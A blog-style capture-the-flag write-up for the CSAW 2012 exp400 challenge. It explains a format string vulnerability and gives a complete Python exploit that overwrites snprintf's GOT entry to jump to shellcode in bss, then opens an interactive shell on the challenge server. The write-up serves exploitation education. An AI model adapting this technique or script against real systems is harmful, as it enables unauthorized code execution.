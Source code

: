 ```yaml
---
title: 'CSAW Quals 2012 &mdash; exp400'
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: CSAW CTF Quals
year: 2012
---
```

## Overview

[challenge2][1] is an Linux x86 binary with a format string vulnerability. If our format string contains no common shells, it gets placed in bss so we can just jump directly to it.

<!--more-->

## Writeup

We quickly find the interesting function and notice the obvious format string vulnerability.  There are a couple of things we need to observe for this exploit:

  * The `snprintf` fills a buffer on the stack (there is actually a buffer overflow here we didn't use but could have), so we can use it to get arguments we want on the stack.
  * The program will exit if it detects `/bin/sh`, `/bin/bash`, etc. in our string, so we cannot use shellcode with those as constants. Luckily, [my favorite shellcode][3] doesn't have this problem.
  * Immediately after the `snprintf`, the function `countdown` makes another call to `snprintf`.
  * Our format string is initially placed in bss, which is at a known location and is executable.

But now we have everything we need for our exploit: we make a format string that overwrites the GOT address of `snprintf` to point to the area in bss with payload. The format string will have the form: `shellcode + padding + addr_of_snprintf_got_hi + addr_of_snprintf_got_lo + format_string`. Here is an exploit.

```
#!/usr/bin/python
import struct
import socket
import telnetlib
import sys
import string

shellcode = ""

got_addr = 0x804b044  # snprintf got.
target_val = 0x804b120  # Location of our payload in bss.
padding = "A"*(4 - (len(shellcode) % 4))
first_part =  shellcode + padding + struct.pack('I', got_addr) + struct.pack('I', got_addr + 2)

first_size = (target_val >> 16) - len(first_part)
second_size = (target_val &#038; 0xFFFF) - first_size - len(first_part)

first_addr = (len(first_part) / 4) + 3
second_addr = first_addr + 1

last_part = "%" + str(first_size) + "x%" + str(second_addr) + "$hn"
last_part += "%" + str(second_size) + "x%" + str(first_addr) + "$hn"

payload = first_part + last_part + "\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('128.238.66.213', 23456))
# s.connect(('127.0.0.1', 23456))
f = s.makefile('rw', bufsize=0)

f.write(payload)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp400.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-3.14.07-PM.png
 [3]: http://www.shell-storm.org/shellcode/files/shellcode-606.php